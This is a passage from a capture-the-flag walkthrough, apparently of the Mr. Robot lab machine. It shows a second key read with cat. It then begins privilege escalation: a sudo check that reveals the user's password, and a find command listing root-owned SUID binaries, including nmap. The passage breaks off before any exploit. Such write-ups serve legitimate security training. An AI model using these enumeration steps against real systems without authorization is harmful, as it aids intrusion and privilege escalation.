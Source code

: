 To view the second key, we need to use the cat command: 

> ```shell
> cat key-2-of-3.txt
> ```

Result:

> ```shell
> $ cat key-2-of-3.txt
> cat key-2-of-3.txt
> 822c73956184f694993bede3eb39f959
> ```

**Second key:** `822c73956184f694993bede3eb39f959`

   

## Finding the third key

**HINT:** NMAP
   
If we go back to the Nmap result we got at the beginning; we can see that the SSH port is closed. The final key is mostly located in the `/root` directory. To get root, we need to do a privilege escalation. The first thing that interests me is whether the user `robot` is in the so-called sudo group.

### Privilege escalation

Is user robot in the sudo group ? 

> ```shell
> $ sudo -l
> sudo -l
> [sudo] password for robot: abcdefghijklmnopqrstuvwxyz
>
> Sorry, user robot may not run sudo on linux.
> ```

The user robot is not on the list with sudo privileges. Now we can see which programs are under the `root` user. 

#### Checking SETUID that are under root control:

Command: 

> ```shell
> find / -user root -perm -4000 -print 2>/dev/null
> ```

Output: 

> ```shell
> $ find / -user root -perm -4000 -print 2>/dev/null
> / -user root -perm -4000 -print 2>/dev/null
> /bin/ping
> /bin/umount
> /bin/mount
> /bin/ping6
> /bin/su
> /usr/bin/passwd
> /usr/bin/newgrp
> /usr/bin/chsh
> /usr/bin/chfn
> /usr/bin/gpasswd
> /usr/bin/sudo
> /usr/local/bin/nmap
> /usr/lib/openssh/ssh-keysign
> /usr/lib/eject/dmcrypt-get-device